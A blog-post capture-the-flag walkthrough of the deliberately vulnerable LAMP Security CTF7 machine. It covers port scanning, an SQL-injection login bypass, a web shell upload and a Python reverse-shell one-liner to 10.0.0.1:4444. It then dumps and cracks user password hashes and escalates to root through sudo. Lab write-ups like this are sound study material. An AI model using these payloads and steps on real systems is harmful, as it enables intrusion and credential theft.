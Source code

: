 ```yaml
---
layout: post
title:	"Lamp Security CTF7 Writeup"
date:	2017-01-06 21:30:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello everyone. [LAMP Security CTF7](http://www.vulnhub.com/entry/lampsecurity-ctf7,86/) was created by [Mad Irish](http://hello%20everyone.%20lamp%20security%20ctf7%20is%20an%20easy%20and%20funny%20ctf%20created%20by%20mad%20irish/). You can find it on [Vulnub](https://www.vulnhub.com/) or on [root-me](https://www.root-me.org/).

Ok let’s start to enumerate the services:

~~~
syrion@backbox:~$ nmap -sT -sV -p 1-65535 ctf07.root-me.org

PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
139/tcp   open   netbios-ssn Samba smbd 3.X (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
Device type: general purpose|storage-misc|broadband router|media device|WAP
~~~

I ran dirsearch and in the meanwhile I seen the web site on port 80:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img1.png)

On port 8080 there was this login:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img2.png)

The login was vulneable to SQL Injection. I logged in with ‘ or 1=1 — -. There was a kind of CMS:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img3.png)

I uploaded a shell by creating a new reading:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img4.png)

Before that, Dirsearch showed me the directory with all the uploaded files:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img5.png)

Ok the shell worked:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img6.png)

I used this python payload to open a reverse shell:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,
socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call
(["/bin/sh","-i"]);'
~~~

And it worked:

~~~
syrion@backbox:~$ nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [212.83.142.84] port 4444 [tcp/*] accepted (family 2, sport 57758)
sh: no job control in this shell
sh-4.1$ python -c “import pty;pty.spawn(‘/bin/bash’);”
python -c “import pty;pty.spawn(‘/bin/bash’);”
bash-4.1$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
~~~

After some local enumerations, I found the credentials of mysql in a php page, so I accessed to mysql and I found some interesting credentials:

~~~
bash-4.1$ mysql -u root
mysql -u root
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.1.66 Source distribution
Copyright (c) 2000, 2012, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type ‘help;’ or ‘\h’ for help. Type ‘\c’ to clear the current input statement.

mysql> show databases;
show databases;
+——————–+
| Database           |
+——————–+
| information_schema |
| mysql              |
| roundcube          |
| website            |
+——————–+
4 rows in set (0.00 sec)

mysql> use website;
use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+——————-+
| Tables_in_website |
+——————-+
| contact           |
| documents         |
| hits              |
| log               |
| newsletter        |
| payment           |
| trainings         |
| trainings_x_users |
| users             |
+——————-+
9 rows in set (0.00 sec)

mysql> select username,password from users;
select username,password from users;
+——————————-+———————————-+
| username                      | password                         |
+——————————-+———————————-+
| brian@localhost.localdomain   | e22f07b17f98e0d9d364584ced0e3c18 |
| john@localhost.localdomain    | 0d9ff2a4396d6939f80ffe09b1280ee1 |
| alice@localhost.localdomain   | 2146bf95e8929874fc63d54f50f1d2e3 |
| ruby@localhost.localdomain    | 9f80ec37f8313728ef3e2f218c79aa23 |
| leon@localhost.localdomain    | 5d93ceb70e2bf5daa84ec3d0cd2c731a |
| julia@localhost.localdomain   | ed2539fe892d2c52c42a440354e8e3d5 |
| michael@localhost.localdomain | 9c42a1346e333a770904b2a2b37fa7d3 |
| bruce@localhost.localdomain   | 3a24d81c2b9d0d9aaf2f10c6c9757d4e |
| neil@localhost.localdomain    | 4773408d5358875b3764db552a29ca61 |
| charles@localhost.localdomain | b2a97bcecbd9336b98d59d9324dae5cf |
| foo@bar.com                   | 4cb9c8a8048fd02294477fcb1a41191a |
| test@nowhere.com              | 098f6bcd4621d373cade4e832627b4f6 |
+——————————-+———————————-+
12 rows in set (0.00 sec)
~~~

I used Crackstation to crack all the hashes:

![Screenshot]({{ site.baseurl }}/images/2017-01-06-lamp-security-ctf7-writeup/img7.png)

At this point I tried to become the user brian:

~~~
bash-4.1$ su brian
su brian
Password: my2cents
[brian@localhost inc]$ id
id
uid=501(brian) gid=501(brian) groups=501(brian),10(wheel),500(webdev),512(admin) context=system_u:system_r:httpd_t:s0
~~~

The user Brian was a sudo user, and I become root:

~~~
[brian@localhost inc]$ sudo su
sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

#1) Respect the privacy of others.
#2) Think before you type.
#3) With great power comes great responsibility.

[sudo] password for brian: my2cents

[root@localhost inc]# id
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:httpd_t:s0
[root@localhost inc]# cat /passwd
cat /passwd
688986705024f447914a24e0dd903b39
~~~

Bye!
